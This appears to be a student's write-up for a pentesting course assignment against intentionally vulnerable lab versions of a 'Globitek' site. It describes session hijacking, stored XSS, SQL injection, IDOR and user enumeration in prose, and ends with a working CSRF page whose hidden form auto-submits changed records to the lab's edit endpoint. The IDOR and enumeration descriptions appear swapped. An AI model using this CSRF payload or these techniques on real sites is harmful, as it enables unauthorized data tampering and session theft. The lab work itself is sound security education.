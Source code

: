 # Project 8 - Pentesting Live Targets

Time spent: **4** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: Session Hijacking
- We login to the compromised website with packet interception on. Inspecting the packet reveals that the sessionid field is visible as plaintext in Burp Suite. This session id is copied as is and pasted in a new window in a different browser. The user is logged in automatically without the need to enter credentials.

![ ](Week8_Attack1.gif)


Vulnerability #2: Cross-Site Scripting (XSS)
- The feedback form page text entry box can be used to inject javascripts. These javascripts run when the user logs in and checks the received feedbacks.
![ ](Week8_Attack2.gif)


## Green

Vulnerability #1: SQL Injection
- Sales Person information was up for grabs due to lack of SQL Input Sanitation as seen below:
![ ](Week8_Attack3.gif)


Vulnerability #2: IDOR
- When trying to log in with a username not in the system, the Login Unsuccessful text displayed is normally, but when trying to do the same with a user that has an account in the system, the text is displayed as bold.
![ ](Week8_Attack4.gif)



## Red

Vulnerability #1: User Enumeration
- The URL of the details of the Salesperson's information shows simple numerical sequencing to find user information. This can be used to find data of users, even the ones that are not listed on the page.
![ ](Week8_Attack5.gif)


Vulnerability #2: CSRF
- The feedback form is used to show a mailicious link to the user. If the user follows the link, the data in the website is altered from the HTML Code:
```<!DOCTYPE html>
		<html>
	<head>
		<title>Your Feedback</title>
		<script src="https://code.jquery.com/jquery-3.2.1.min.js"></script>
	</head>
	<body>

		<p> you should secure your site</p>
		<style>
		.hide-form {
			display: none;
		}
		</style>
		<form action="https://35.184.88.145/red/public/staff/salespeople/edit.php?id=2" method="POST" class="hide-form" id="attackform"  name="form">
			<input type="text" name="first_name" value="Sherry Hacked" /><br />
			<input type="text" name="last_name" value="Trevino Hacked" /><br />
			<input type="text" name="phone" value="282-191-111" /><br />
			<input type="text" name="email" value="hacked@hacked.com" /><br />
		</form>
		<script>
		$(function() {
			console.log("loaded");
			window.document.forms[0].submit(function(e) {


				console.log("submitted");
			});
		});
		</script>
</html>
```
